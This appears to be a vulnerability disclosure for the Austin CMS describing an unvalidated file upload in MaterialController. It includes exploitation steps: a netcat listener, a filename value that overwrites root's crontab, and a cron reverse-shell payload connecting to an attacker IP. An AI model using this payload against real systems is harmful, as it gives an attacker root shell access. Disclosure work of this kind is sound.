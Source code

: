 cms url: https://github.com/ZhongFuCheng3y/austin    
The system has a file upload function in the upload material menu.
![image](https://github.com/biantaibao/Austin-CMS-report/assets/131763503/b2e87d77-d60c-453d-9370-831ce820606b)
Find the material upload interface in the code to analyze the code.  
com/java3y/austin/web/controller/MaterialController.java:49
![image](https://github.com/biantaibao/Austin-CMS-report/assets/131763503/fe960ba0-314b-4a78-aacb-82c37581f2a2)
Tracked the getFile() method, which directly wrote a file to the system without verifying the file name, so it can be determined that there is a file upload vulnerability here.
![image](https://github.com/biantaibao/Austin-CMS-report/assets/131763503/9a811acb-1175-4926-b30a-2aeab0242ee4)
Vulnerability exploitation process  
1.Open Kali and use NC to listen on the port  
nc lvvp 6666  
![1704642241_659ac6c196ce782c361b6](https://github.com/biantaibao/Austin-CMS-report/assets/131763503/8f943aad-f0d3-4958-833d-66529b54799b)  
2.Upload the modified crontab file  
![1704734971_659c30fbdd4b643bf8040](https://github.com/biantaibao/Austin-CMS-report/assets/131763503/105a6a75-461c-49f7-9611-95ce3f6114a9)  
3.Burpsuite intercepts and modifies file information  
payload:  
filename: /var/spool/cron/crontabs/root  
Bounce shell:*/1 * * * * bash -i >& dev/tcp/192.168.25.128/9999 0>&1  
![1704735877_659c3485d29cc05793811](https://github.com/biantaibao/Austin-CMS-report/assets/131763503/a20e59dd-508a-4b31-8cd2-b51f0536da76)    
4.Successfully rebounded shell on Kali  
![1704736179_659c35b32f8ec6b903c86](https://github.com/biantaibao/Austin-CMS-report/assets/131763503/dc6bba95-6180-4f93-9f15-9ec5ffe1c976)










